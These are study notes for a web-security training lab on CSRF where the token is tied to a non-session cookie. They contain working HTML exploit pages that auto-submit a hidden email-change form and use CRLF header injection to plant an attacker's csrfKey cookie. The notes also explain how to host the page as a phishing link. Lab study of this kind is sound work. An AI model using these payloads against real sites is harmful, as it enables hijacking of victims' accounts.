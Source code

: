 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

---

template
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://bank.com/email/change/" method="post" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test@test.com">
			<input type="hidden" name="csrf" value="CQsVzkB7dcWbPqassMZMhBuv6k0l6iZU">
		</form>
		<script>
		document.getElementById("csrf-form").submit()
		</script>
	</body>
</html>
```

- App has cookie bases session handling
- Cookie is different to the CSRF

_Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks._

Requirements:
- Attacker CSRF Token
- Attacker CSRF Key
	- Firefox -> Storage -> Cookies
	- Open another firefox tab incognito so you can log in the Attacker user.

Exploit:
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://bank.com/email/change/" method="post" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test@test.com">
			<input type="hidden" name="csrf" value="CQsVzkB7dcWbPqassMZMhBuv6k0l6iZU">
		</form>
		<img style="display:none;" src="https://bank.com/email/change/?search=hat%0d%0aSet-Cookie:%20csrfKey=<Attacker_CSRFKey_Cookie>" onerror="document.forms[0].submit()">
	</body>
</html>
```

Serve the page:
- Move into the directory and server the page
- Create the phishing link
```php
python3 -m http.server 80
```

```php
http://127.0.0.1:80/<FILE>
```


---

Rana:

```html
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https:///0a33009903154da184367954005e0013.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="UYjqwyyGyrsnr8qGu5adRFltwGbIS8S6">
        </form>

        <img src="https://0a33009903154da184367954005e0013.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=04WkQgPVzQFtURvOaoJEwc04UjhQb5Gb%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```

Lab #5 - CSRF where token is tied to non-session cookie

Vulnerable parameter - email change functionality

Goal - exploit CSRF to change email address

Creds - wiener:peter, carlos:montoya

Analysis:

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters 


Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if csrf token is tied to user session

Testing CSRF Tokens and CSRF cookies:
1. Check if the CSRF token is tied to the CSRF cookie
   - Submit an invalid CSRF token
   - Submit a valid CSRF token from another user
2. Submit valid CSRF token and cookie from another user

csrf token: SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb
csrfKey cookie: ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH

In order to exploit this vulnerability, we need to perform 2 things:
1. Inject a csrfKey cookie in the user's session (HTTP Header injection) - satisfied
2. Send a CSRF attack to the victim with a known csrf token